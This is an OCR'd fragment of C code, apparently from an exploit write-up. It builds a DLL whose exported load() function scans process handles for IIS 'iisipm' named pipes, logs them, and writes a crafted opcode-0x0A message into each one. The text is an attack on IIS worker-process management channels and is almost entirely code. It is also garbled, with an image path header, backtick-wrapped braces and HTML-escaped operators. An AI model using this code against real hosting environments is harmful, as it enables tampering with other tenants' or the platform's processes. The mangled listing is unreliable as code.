 ```
`}`
PIPE_DATA;

extern "C"
__declspec(dllexport) int load(void) `{`
  FILE * fh = NULL;

  char path[256];
  sprintf(path, "D:\\home\\output_%d_.txt", GetCurrentProcessId());
  fh = fopen(path, "wb");

  if (NULL != fh) `{`
    int i = 0;
    for (i = 1; i &lt; 10000; i++) `{`
      DWORD type = GetFileType((HANDLE) i);

      if (FILE_TYPE_PIPE == type) `{`
        PFILE_NAME_INFO fi;
        DWORD structSize = (MAX_PATH_LEN * sizeof(wchar_t)) + sizeof(FILE_NAME_INFO);
        fi = (PFILE_NAME_INFO) malloc(structSize);

        if (fi == NULL)
          continue;

        memset(fi, 0, structSize);

        if (NULL != fi) `{`
          if (GetFileInformationByHandleEx((HANDLE) i, FileNameInfo, fi, structSize)) `{`
            if (wcsstr(fi - &gt; FileName, L "iisipm")) `{`
              fprintf(fh, "Pipe: %x - %S\n", i, fi - &gt; FileName);
              fflush(fh);

              DWORD writtenBytes = 0;
              OVERLAPPED overlapped;
              memset( &amp; overlapped, 0, sizeof(OVERLAPPED));

              PIPE_DATA pipedata;
              memset( &amp; pipedata, 'a', sizeof(PIPE_DATA));

              pipedata.opcode = 0x0A;
              pipedata.length = 0;
              if (WriteFile((HANDLE) i, &amp; pipedata, sizeof(PIPE_DATA), &amp; writtenBytes, &amp; overlapped)) `{`
                fprintf(fh, "Successfully writen: %d bytes into %d\n", writtenBytes, i);
                fflush(fh);
              `}` else `{`
                fprintf(fh, "Failed to write into %d\n", i);
                fflush(fh);
              `}`
            `}`
          `}` else `{`
            fprintf(fh, "Error: %x, %d\n", i, GetLastError());
            fflush(fh);
          `}`

          free(fi);
        `}`
      `}`
    `}`
    fclose(fh);
  `}`

  return 0;
```